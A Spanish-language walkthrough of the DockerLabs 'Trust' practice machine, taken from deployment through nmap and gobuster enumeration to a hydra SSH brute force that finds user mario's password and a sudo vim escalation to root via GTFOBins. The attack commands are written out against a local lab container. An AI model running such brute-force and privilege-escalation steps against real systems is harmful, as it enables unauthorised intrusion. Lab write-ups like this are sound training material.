Vamos con la primera maquina de DockerLabs, una web reciente donde podemos ejecutar las maquinas en local con docker y que sea todo mucho mas rápido y optimizado.

![dockerLabs.png](assets/dockerLabs.png)

Para poder ejecutar las maquinas necesitaremos instalar docker:

```bash
sudo apt install docker.io
```

 y para ejecutar las maquinas primero extraeremos el archivo zip que nos descargaremos de la web, a continuación entraremos en el directorio extraído y desplegaremos la maquina con el siguiente comando:
```bash
sudo bash auto_deploy.sh trust.tar
```

en caso de éxito nos mostrará el siguiente mensaje:

```bash
❯ sudo bash auto_deploy.sh trust.tar

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

hacemos un scan general con nmap:

```bash
❯ nmap -p- -Pn --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 19:10 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000099s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.46 seconds
```

vemos que solo hay dos servicios, hacemos un escaneo mas profundo en los puertos encontrados:

```bash
❯ nmap -p22,80 -Pn -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 19:11 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00011s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.17 seconds
```

obtenemos que es una web con Apache, vamos a echar un vistazo:

![apacheTrust.png](assets/apacheTrust.png)

hacemos una enumeración web con gobuster y obtenemos los siguientes resultados:

```bash
❯ gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,xml,json
```


![gobusterTrust.png](assets/gobusterTrust.png)

vamos a ver que hay en el directorio secret.php:

![webMarioTrust.png](assets/webMarioTrust.png)

la web solo muestra este mensaje que de primeras me da a pensar que hay un ussuario llamado mario, en el codigo fuente tampoco encontramos nada, asi que apuntaremos al servicio ssh con un atauqe de fuerza bruta probando el usuario mario con el rockyou.txt:

```bash
❯ hydra -l mario -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh
```

y nos da un caso exitoso:

![hydraTrust.png](assets/hydraTrust.png)

el usuario **mario** si existe y la contraseña es **chocolate**

vamos a conectarnos al ssh:

```bash
❯ ssh mario@172.17.0.2
mario@172.17.0.2s password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar 20 09:54:46 2024 from 192.168.0.21
mario@2a9f78d555d6:~$ 
```
En DockerLabs no hay flags por lo que paraconcluir la maquina tenemos que obtener root, asi que vamos a enumerar los servicios que tenemos como mario:

```bash
mario@2a9f78d555d6:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on 2a9f78d555d6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 2a9f78d555d6:
    (ALL) /usr/bin/vim
mario@2a9f78d555d6:~$ 
```

tenemos permisos sudo para vim, consultamos en la pagina [GTFOBins](https://gtfobins.github.io/) 

![vimTrust.png](assets/vimTrust.png)

usamos la opción (a) y nos da root

![rootTrust.png](assets/rootTrust.png)

Con esto ya hemos comprometido la maquina.

